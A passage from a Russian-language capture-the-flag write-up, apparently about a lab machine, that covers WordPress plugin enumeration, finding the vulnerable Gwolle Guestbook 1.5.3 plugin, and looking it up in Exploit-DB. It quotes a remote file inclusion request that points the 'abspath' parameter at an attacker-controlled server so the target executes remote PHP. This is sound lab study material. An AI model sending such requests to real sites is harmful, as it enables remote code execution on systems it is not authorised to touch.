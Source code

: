 Ничего криминального нет, однако, просматривая `readme.txt` устаревших плагинов, я наткнулся на такое прелестное послание:
```text
root@kali:~# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt | grep 2.3.10
Stable tag: 2.3.10
= 2.3.10 =
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D
```

Ах, подло :angry:

Отсюда вывод, что, скорее всего, то, что нам нужно — устаревший плагин `gwolle-gb` (v1.5.3).

Посмотрим, что нам скажет Exploit-DB:
```text
root@kali:~# searchsploit gwolle
------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                    |  Path
                                                                  | (/usr/share/exploitdb/)
------------------------------------------------------------------ ----------------------------------------
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion   | exploits/php/webapps/38861.txt
------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result
```

```text
root@kali:~# seachsploit -x exploits/php/webapps/38861.txt
  Exploit: WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/38861/
     Path: /usr/share/exploitdb/exploits/php/webapps/38861.txt

...
HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote Kali can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the Kali needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
...
```

И в лицо нам тычут RFI (***R**emote **F**ile **I**nclusion*) дырой, зияющей в этой версии плагина. Что ж, давайте проверять.

# Захват LowPriv юзера (www-data)
В этом параграфе будет эксплуатировать [CVE-2015-8351](https://www.exploit-db.com/exploits/38861 "WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion") для получения "низкопривилегированного" (as www-data) шелла. Начнем по традиции с демонстрации осуществимости атаки.
